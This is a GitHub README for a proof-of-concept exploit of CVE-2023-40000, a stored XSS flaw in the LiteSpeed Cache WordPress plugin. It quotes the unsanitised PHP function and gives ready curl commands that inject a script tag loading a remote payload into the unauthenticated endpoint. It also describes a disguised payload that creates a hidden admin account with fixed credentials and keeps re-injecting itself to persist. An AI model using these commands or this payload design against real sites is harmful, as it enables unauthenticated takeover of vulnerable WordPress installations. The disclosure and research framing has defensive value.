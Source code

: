 # LiteSpeed Cache XSS PoC

PoC for XSS vulnerability in the LiteSpeed Cache WordPress plugin allowing elevated privileges. This vulnerability was fixed in version **5.7.0.1** of the plugin, and was assigned [CVE-2023-40000](https://www.cve.org/CVERecord?id=CVE-2023-40000). According to [the plugin's advanced view page](https://wordpress.org/plugins/litespeed-cache/advanced/), about 35% of users are still using a vulnerable version (<5.7.0.1), which adds up to about 1.8M websites.

## Vulnerability Information

Due to lack of input sanitization in the `update_cdn_status` function, (unauthenticated) users are able to send a post request with an infected `_msg` form value that is stored and then displayed in the admin section of WordPress. This can allow anyone to create admin accounts, escalate their privileges, or steal sensitive information by just sending one unauthenticated POST request. The vulnerable function can be found [here](https://github.com/litespeedtech/lscache_wp/blob/v5.5/src/cdn-setup.cls.php#L49-L69) or below, and the `Admin_Display::error` function can be found [here](https://github.com/litespeedtech/lscache_wp/blob/2564cb05b6ba33fbf86fbcb62699dc5d3e28c9ae/src/admin-display.cls.php#L376-L385).

```php
/**
 * Callback for updating Auto CDN Setup status after run
 *
 * @since  4.7
 * @access public
 */
public function update_cdn_status() {

	if ( !isset( $_POST[ 'success' ] ) || !isset( $_POST[ 'result' ] ) ) {
		self::save_summary( array( 'cdn_setup_err' => __( 'Received invalid message from the cloud server. Please submit a ticket.', 'litespeed-cache' ) ) );
		return self::err( 'lack_of_param' );
	}
	if (!$_POST[ 'success' ]) {
		self::save_summary( array( 'cdn_setup_err' => $_POST[ 'result' ][ '_msg' ] ) );
		Admin_Display::error( __( 'There was an error during CDN setup: ', 'litespeed-cache' ) . $_POST[ 'result' ][ '_msg' ] );
	} else {
		$this->_process_cdn_status($_POST[ 'result' ]);
	}

	return self::ok();
}
```

## Proof of Concept

The proof of concept in this repository contains a NodeJS express server designed to obfuscate and deliver the XSS payload, while also capturing incoming pings and data. The payload script showcases the potential actions of attackers exploiting this vulnerability: it creates an admin account with the username "wp-config-user" and password "somepassword123". The XSS payload, which is also disguised as `admin-bar-reloaded.min`, hides the initial XSS popup on load, completely hides the created user in the `users.php` admin page, and repeats the initial POST request to maintain a persistent stored XSS.

### Installation and Usage

1. Install Node.js and npm if they are not already installed.
2. Clone the repository and navigate into the project directory.
3. Run `npm install` to install the dependencies.
4. Start the server with `node index.js`.

### Sending the POST Request

Use the following cURL command to send the POST request to the vulnerable endpoint:

#### Linux:

```bash
curl -X POST "https://target.website/wordpress/wp-json/litespeed/v1/cdn_status" \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "success=0&result[_msg]=<script src=https://your.server/admin-bar-reloaded.min.js></script>"

```

#### Windows:

```cmd
curl -X POST "https://target.website/wordpress/wp-json/litespeed/v1/cdn_status" ^
-H "Content-Type: application/x-www-form-urlencoded" ^
-d "success=0&result[_msg]=<script src=https://your.server/admin-bar-reloaded.min.js></script>"
```

## Disclaimer

The contents of this repository are provided strictly for educational and research purposes. I am not responsible for any misuse or illegal activities stemming from the use of this proof of concept. On top of this, a warning has been issued on the LiteSpeed Cache plugin page advising all users to update their software due to this known vulnerability. Please ensure your installations are updated to version 5.7.0.1 or later to mitigate this issue.
